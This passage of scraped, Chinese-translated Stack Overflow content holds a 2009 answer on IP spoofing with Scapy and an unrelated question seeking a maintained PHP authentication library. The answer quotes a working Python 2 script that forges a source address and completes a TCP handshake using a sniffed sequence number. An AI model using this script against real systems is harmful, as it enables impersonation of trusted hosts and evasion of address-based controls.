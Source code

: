 > 赞同：20
> 
> 时间：2009-01-05T18:44:27.783

[您可以使用Scapy](http://www.secdev.org/projects/scapy/)库来欺骗 IP 地址。

以下是 Packet Wizardry 中的一个示例[：使用 Python 统治网络](http://web.archive.org/web/20120401161821/http://packetstorm.linuxsecurity.com/papers/general/blackmagic.txt)：

```
#!/usr/bin/env python
import sys
from scapy import *
conf.verb=0

if len(sys.argv) != 4:
    print "Usage: ./spoof.py <target> <spoofed_ip> <port>"
    sys.exit(1)

target = sys.argv[1]
spoofed_ip = sys.argv[2]
port = int(sys.argv[3])

p1=IP(dst=target,src=spoofed_ip)/TCP(dport=port,sport=5000,flags='S')
send(p1)
print "Okay, SYN sent. Enter the sniffed sequence number now: "

seq=sys.stdin.readline()
print "Okay, using sequence number " + seq

seq=int(seq[:-1])
p2=IP(dst=target,src=spoofed_ip)/TCP(dport=port,sport=5000,flags='A',
                                     ack=seq+1,seq=1)
send(p2)

print "Okay, final ACK sent. Check netstat on your target :-)" 
```

# php - 积极维护用于用户身份验证的 PHP 库？

> ID：414034
> 
> 赞同：15
> 
> 时间：2009-01-05T18:23:19.073
> 
> 标签：php, security, authentication

我知道滚动您自己的用户身份验证脚本的风险，但我也对使用似乎没有得到积极维护的软件包保持警惕：[当前版本的 PEAR LiveUser](http://pear.php.net/package/LiveUser/download/)已经快一年了。

请推荐（并论证）一个积极维护的用户身份验证库，它可以集成到现有的 Web 项目中。理想情况下，它应该支持各种角色——匿名用户、注册用户和不同级别的管理员。
